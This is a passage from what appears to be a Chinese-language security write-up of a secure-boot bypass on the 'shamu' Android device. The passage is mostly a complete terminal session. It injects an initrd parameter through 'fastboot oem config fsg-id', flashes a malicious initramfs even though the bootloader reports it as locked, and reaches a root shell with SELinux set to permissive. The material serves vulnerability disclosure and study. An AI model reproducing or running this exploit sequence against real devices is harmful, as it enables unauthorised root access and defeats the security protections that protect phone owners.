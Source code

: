 2、我们可以使用fastboot接口，从固定的物理地址上将initramfs载入内存中。

3、我们可以引导Linux内核填充这个initramfs。

对于安全启动流程来说，信任关系已被破坏，如下所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a82a765759739630.png)

成功的攻击过程如下所示：



```
$ adb shell
shamu:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
shamu:/ $ getenforce
Enforcing
shamu:/ $ setenforce permissive
setenforce: Couldn't set enforcing status to 'permissive': Permission denied
shamu:/ $ reboot bootloader
$ fastboot getvar unlocked
[...]
unlocked: no
finished. total time: 0.008s
$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
[...]
(bootloader) &lt;UTAG name="fsg-id" type="str" protected="false"&gt;
(bootloader)   &lt;value&gt;
(bootloader)     a initrd=0x11000000,1518172
(bootloader)   &lt;/value&gt;
(bootloader)   &lt;description&gt;
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   &lt;/description&gt;
(bootloader) &lt;/UTAG&gt;
OKAY [  0.016s]
finished. total time: 0.016s
$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending 'aleph' (1482 KB)...
OKAY [  0.050s]
writing 'aleph'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 0.054s
$ fastboot continue
[...]
resuming boot...
OKAY [  0.007s]
finished. total time: 0.007s
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
shamu:/ # getenforce
Enforcing
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```
